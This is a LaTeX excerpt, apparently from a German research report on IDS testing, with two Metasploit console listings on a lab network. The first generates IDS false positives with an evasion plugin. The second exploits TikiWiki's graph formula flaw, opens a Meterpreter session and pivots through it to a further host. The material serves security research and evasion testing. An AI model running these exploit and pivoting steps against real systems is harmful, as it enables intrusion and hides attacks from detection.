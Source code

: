 \subsection{False-Positive-Generierung}
\begin{lstlisting}[label=generate-false-positive]
  msf > load evasiondb
  [*] EvasionDB plugin loaded.
  [*] Successfully
  loaded plugin: FIDIUS-EvasionDB
  msf > set_autologging false
  msf >fetch_events
  [*] 0 events generated
  msf > use auxiliary/ids/false_positive/netbios_share_access
  msf auxiliary(netbios_share_access) > set RHOST 10.20.20.1
  RHOST => 10.20.20.1
  msf auxiliary(netbios_share_access) > run
  [*] Auxiliary
  module execution completed
  msf auxiliary(netbios_share_access) > fetch_events
  [*] 1 events generated (81)
  Event(NETBIOS SMB-DS IPC$  share access) : 72 bytes payload (10.0.0.101 -> 10.20.20.1)
\end{lstlisting}

\subsection{False-Positive-Generierung über Pivot-Host}
\begin{lstlisting}[label=false-positive-pivot]
  msf > use exploit/unix/webapp/tikiwiki_graph_formula_exec
  msf exploit(tikiwiki_graph_formula_exec) > set RHOST 10.20.20.70
  RHOST =>10.20.20.70
  msf exploit(tikiwiki_graph_formula_exec) > set PAYLOAD
  php/meterpreter/bind_tcp
  PAYLOAD => php/meterpreter/bind_tcp msf
  exploit(tikiwiki_graph_formula_exec) > exploit
  [*] Attempting to obtain database credentials...
  [*] Started bind handler
  [*] Attempting to execute our payload...
  [*] Sending stage (31113 bytes) to 10.20.20.70
  [*] Meterpreter session 1 opened (10.0.0.101:45263 -> 10.20.20.70:4444) at 2011-04-06 16:53:23 +0200 meterpreter > background
  msf exploit(tikiwiki_graph_formula_exec) > back
  msf > route add 10.20.20.0 255.255.255.0 1
  msf > route print
  Active Routing Table
  ====================
    Subnet      Netmask         Gateway
    ------      -------         -------
    10.20.20.0  255.255.255.0   Session 1

  msf > use auxiliary/ids/false_positive/netbios_share_access
  msf auxiliary(netbios_share_access) > set RHOST 10.20.20.1
  RHOST => 10.20.20.1
  msf auxiliary(netbios_share_access) > run
  [*] Auxiliary module execution completed
  msf auxiliary(netbios_share_access) > fetch_events (96) Event(NETBIOS SMB-DS IPC$ share access) : 72 bytes payload (10.20.20.70 -> 10.20.20.1)
  msf auxiliary(netbios_share_access) >
\end{lstlisting}

